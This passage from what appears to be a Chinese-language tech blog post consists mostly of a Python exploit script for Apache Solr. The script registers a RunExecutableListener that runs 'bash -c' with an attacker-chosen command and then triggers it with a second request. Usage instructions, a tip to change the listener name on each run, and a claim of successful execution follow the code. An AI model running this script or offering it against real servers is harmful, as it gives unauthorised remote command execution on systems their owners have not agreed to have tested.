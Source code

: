 ```python
    
headers_cmd = {
    'Host': "localhost",
    'Accept': "*/*",
    'Accept-Language': "en",
    'User-Agent': "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)",
    'Connection': "close",
    'Content-Length': "160"
    }
   
headers_exec = {
    'Host': "localhost",
    'ccept-Language': "en",
    'User-Agent': "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)",
    'Connection': "close",
    'Content-Type': "application/json",
    'Content-Length': "15"
    } 


payload_cmd = """
{"add-listener":{"event":"postCommit","name":"%s","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "%s"]}}
""" % (listener,cmd)

payload_exec = """
[{"id":"test"}]
"""

r = requests.request("POST", url=cmd_url, data=payload_cmd, headers=headers_cmd, timeout=30)
a = list(json.loads(r.text))[1]
if "errorMessages" in a:
    print ("[-] Listener Repeat")
    sys.exit(0)

r = requests.request("POST", url=exec_url, data=payload_exec, headers=headers_exec, timeout=30)
if r.status_code == 200:
    print ("[+] Command Executed Successfully (Effective about one minute) (No Echo)")
else:
    print ("[-] Command Executed Failed")
```

使用格式：`python3 filename.py url name command`

![img](https://img-blog.csdnimg.cn/3d9dc045fdd24c90829b26b4d35af09c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

**tips：name就是前面流程中的name的值，所以每次必须不一样！**

成功执行！

![img](https://img-blog.csdnimg.cn/53a111eb4f314569b0a1067c298950a9.png)
